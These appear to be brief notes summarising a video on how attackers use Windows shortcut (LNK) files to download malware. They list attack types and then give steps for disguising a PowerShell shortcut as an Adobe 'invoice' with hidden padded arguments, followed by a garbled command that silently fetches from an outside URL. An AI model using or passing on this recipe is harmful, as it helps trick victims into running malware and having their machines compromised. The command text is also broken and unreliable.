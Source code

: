 [How hackers use LNK files to maliciously download malware](https://youtu.be/8ml7YQnNu-4?si=9j0yq7u64llFFYy9)
#lnk #lnkfile #malware

types of attacks
- malicious redirects
- malicious attachments
- drive-by downloads
- social engineering

```
link location shortcut to powershell
name invoice
change icon to adobe
```
add a bunch of spaces after target and then this commands
```
-commandout-string -inputobject "form.lnk" ASCII.GetString ("$ProgressPreference="SilentlyContinue";$links=(https://hackersit.in/fmlib/sdfsdfsdf")
```